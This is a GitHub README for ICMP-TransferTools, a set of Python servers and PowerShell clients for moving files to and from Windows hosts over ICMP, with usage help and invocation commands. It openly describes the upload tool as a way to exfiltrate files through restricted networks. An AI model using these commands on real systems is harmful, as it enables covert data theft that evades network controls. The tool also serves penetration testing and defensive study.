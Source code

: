 # ICMP-TransferTools
ICMP-TransferTools is a set of scripts designed to move files to and from Windows hosts in restricted network environments. This is accomplished using a total of 4 different files, consisting of a python server and powershell client for each transfer direction (Download & Upload).
 
The only dependency required is `Impacket` for one of the python scripts. It can be installed via pip like so:
```
pip3 install impacket
```

## Download via ICMP
The included `ICMP-SendFile.py` and `Invoke-IcmpDownload.ps1` scripts can be used to download a file to a Windows host via ICMP.

The python server must be run first to stage the file for download. See below for the script's usage:
```
usage: ICMP-SendFile.py [-h] [-v] [-b 1000] source destination file

ICYGUIDER'S ICMP FILE DOWNLOAD SERVER

positional arguments:
  source                Public IP address of current host
  destination           Public IP address of destination host
  file                  File to transfer over ICMP

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosely print progress
  -b 1000, --block-size 1000
                        Size of each block (Default: 1000)
```

Once imported, the powershell client can then be used to download the staged file like so:
```
Invoke-IcmpDownload PublicIPAddressOfServer FileToDownload
```
 
See below for a quick demonstration:

![Download Demo Gif](https://i.imgur.com/xWlZutV.gif)

## Upload via ICMP
The included `ICMP-ReceiveFile.py` and `Invoke-IcmpUpload.ps1` scripts can be used to upload/exfiltrate a file from a Windows host via ICMP.

The python server must be run first to ensure it's ready to accept requests from the client. See below for the script's usage:
```
usage: ICMP-ReceiveFile.py [-h] src file

ICYGUIDER'S ICMP FILE UPLOAD SERVER

positional arguments:
  src         Public IP Address of client
  file        File to write data to

optional arguments:
  -h, --help  show this help message and exit
```

Once imported, the powershell client can then be used to upload the desired file like so:
```
Invoke-IcmpUpload PublicIPAddressOfServer FileToUpload
```

See below for a quick demonstration:

![Upload Demo Gif](https://i.imgur.com/4fWaZi3.gif)

